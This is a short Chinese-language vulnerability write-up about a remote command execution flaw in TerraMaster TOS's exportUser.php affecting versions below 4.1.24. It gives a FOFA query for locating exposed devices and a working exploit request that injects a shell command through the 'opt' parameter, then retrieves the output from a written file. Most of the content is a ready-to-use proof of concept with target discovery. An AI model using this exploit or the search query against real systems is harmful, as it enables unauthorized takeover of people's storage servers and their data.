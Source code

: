 # TerraMaster TOS exportUser.php 远程命令执行

# 一、漏洞简介
TerramasterTOS是中国深圳市图美电子技术（Terramaster）公司的一款基于Linux平台的，专用于erraMaster云存储NAS服务器的操作系统。TerramasterTOS系统 exportUser.php 存在远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限，导致服务器失陷。

# 二、影响版本
+ TerraMaster TOS < 4.1.24

# 三、资产测绘
+ fofa`"TerraMaster" && header="TOS"`
+ 特征

![1707230386875-617c7117-0c8e-4228-971d-4e0b14395464.png](./img/uG6FSbneaAIz9Qah/1707230386875-617c7117-0c8e-4228-971d-4e0b14395464-909380.png)

# 四、漏洞复现
```plain
/include/exportUser.php?type=3&cla=application&func=_exec&opt=(whoami)>test.txt
```

![1707230462067-53cbb3cb-0e94-4ff3-8ba3-4e7d3eed053a.png](./img/uG6FSbneaAIz9Qah/1707230462067-53cbb3cb-0e94-4ff3-8ba3-4e7d3eed053a-148007.png)

获取命令执行结果

```plain
/include/test.txt
```

![1707230499837-b1a050ef-95af-4d15-bb97-28d5b9c755d3.png](./img/uG6FSbneaAIz9Qah/1707230499837-b1a050ef-95af-4d15-bb97-28d5b9c755d3-148022.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/atopoc3573ymfsnt>
